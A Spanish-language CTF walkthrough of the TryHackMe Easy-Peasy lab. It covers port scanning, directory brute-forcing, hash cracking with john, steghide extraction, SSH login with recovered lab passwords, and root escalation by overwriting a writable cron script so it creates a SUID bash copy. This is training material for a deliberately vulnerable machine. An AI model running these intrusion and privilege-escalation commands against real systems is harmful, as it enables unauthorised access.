## **Tutorial: Explotación de la máquina Easy-Peasy en TryHackMe**


## 1. Conexión a la VPN de TryHackMe

Para poder acceder a las máquinas del laboratorio es necesario conectarse primero a la VPN de TryHackMe. Esto crea un túnel cifrado entre la máquina Kali y la red privada del laboratorio.

### 1.1 Conexión mediante OpenVPN

Desde la terminal de Kali ejecutamos el siguiente comando utilizando el archivo .ovpn descargado desde la plataforma:

```bash
sudo openvpn /home/nerea/Descargas/eu-central-1-nereacandonramos-regular.ovpn
```
Si este no funciona, probar el west-3-
Si la conexión se establece correctamente aparecerá el mensaje:

```bash
Initialization Sequence Completed
```

Esto indica que la VPN se ha establecido correctamente.

### 1.2 Verificación de la conexión

Para comprobar que la conexión está activa ejecutamos:

```bash
ip a
```

Esto mostrará una interfaz de red llamada tun0, que corresponde a la conexión VPN con TryHackMe.

## 2. Escaneo de puertos con Nmap

El siguiente paso consiste en identificar los servicios expuestos en la máquina objetivo utilizando Nmap, una herramienta fundamental para el reconocimiento en auditorías de seguridad.

Se ejecuta el siguiente comando:

Escaneo completo de puertos:

```bash
nmap -p- --open -T4 -Pn 10.128.135.59
```



Esto revela los puertos 80 (HTTP), 6498 (SSH), y 65524 (HTTP/Apache).

Escaneo de versiones y scripts:

```bash
nmap -sC -sV -p80,6498,65524 10.128.135.59
```



## 3. Enumeración Web

Accede a http://10.128.135.59 y reviso el contenido.



Fuerza bruta de directorios:

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.128.135.59
```



Encuentro directorios como /hidden y reviso su contenido y código fuente.

Hago fuerza bruta también sobre /hidden:

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.128.135.59/hidden/
```



Repito el proceso en el puerto 65524:

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.128.135.59:65524
```




Reviso http://10.128.135.59:65524/robots.txt.



Buscamos cadenas codificadas en base64 o base62 en el código fuente de las páginas y decódelas usando herramientas como CyberChef.

```bash
curl -A “a18672860d0510e5ab6699730763b250” http://10.128.135.59:65524/
```



Aquí oculto hay un hidden está codificado con base62: ObsJmP173N2X6dOrAgEAL0Vu y el resultado es 

```bash
/n0th1ng3ls3m4tt3r
```

Vamos de nuevo al navegador y colocamos esta ruta 

```bash
http://10.128.135.59:65524/n0th1ng3ls3m4tt3r/
```


Cuando abrimos el código fuente de esta página
Obtenemos algo como hash 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81



Guardamos la imagen, le damos al enlace azul de la imagen y le damos a guardar como...



Para comprobarlo y saber qué tipo de hash es, utilice el identificador de hash.
Hemos obtenido que puede ser SHA-256 o Havel-56.




## 4. Descubrimiento de Hashes y Contraseñas

Creamos un archivo con el hash que hemos encontrado antes

```bash
nano hash1.txt
```


Escribimos dentro el hash y lo guardamos

Descargamos la lista que hay en el tryhackme para poder desencriptar el hash y usamos este comando.

```bash
john --wordlist=~/Descargas/easypeasy_1596838725703.txt --format=gost has1.txt
```


La contraseña es: mypasswordforthatjob 


## 5. Esteganografía y Extracción de Credenciales

Volvemos a la página de números binarios y descargamos la imagen, utilizamos la herramienta steghide para extraer información oculta.

```bash
steghide extract -sf binario.jpeg
```


Usaremos la contraseña: mypasswordforthatjob



Para hacer este paso bien y no tener errores, descargar la imagen desde el enlace azul de aqui 
http://10.128.135.59:65524/n0th1ng3ls3m4tt3r/

```bash
cat secrettext.txt
```
Si la contraseña está en binario, usa CyberChef para convertirla a texto. Vamos a la página buscamos From binary y pegamos el texto que vimos en secrettext.txt para descubrir la contraseña



La contraseña es: iconvertedmypasswordtobinary

## 6. Acceso SSH

Con las credenciales obtenidas, accede por SSH al puerto 6498:

Utilizamos el usuario que nos puso el secrettext.txt que es boring y la contraseña que obtuvimos del binario que es iconvertedmypasswordtobinary

```bash
ssh -p 6498 boring@10.129.178.176
```


## 7. Escalada de Privilegios

Enumera permisos y crontabs:

Este script mysecretcronjob.sh se ejecuta cada minuto, por lo que podemos agregar código aquí para obtener acceso de root.

```bash
sudo -l
cat /etc/crontab
ls -l /var/www/.mysecretcronjob.sh
```
Confirma que este archivo pertenece al usuario boring y que es escribible y ejecutable.




Si encuentras un script en cron que puedes modificar, edítalo para obtener una reverse shell, ponemos nuestra ip de la maquina atacante.

Se modifica el script para inyectar comandos maliciosos:

```bash
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /var/www/.mysecretcronjob.sh
```
Esto hace:

- Copia /bin/bash a /tmp/rootbash
- Le asigna permiso SUID

Dado que el script es ejecutado por un cronjob, se espera aproximadamente 1 minuto.

Luego se comprueba:

```bash
ls -l /tmp/rootbash
```

Resultado:

```bash
-rwsr-sr-x 1 root root ...
```
La s indica que el binario tiene SUID activo

## 8. Escalada a root

Se ejecuta la bash con privilegios elevados:

```bash
/tmp/rootbash -p
```

Verificación:

```bash
whoami
```

Resultado:

```bash
root
```


Acceso root conseguido

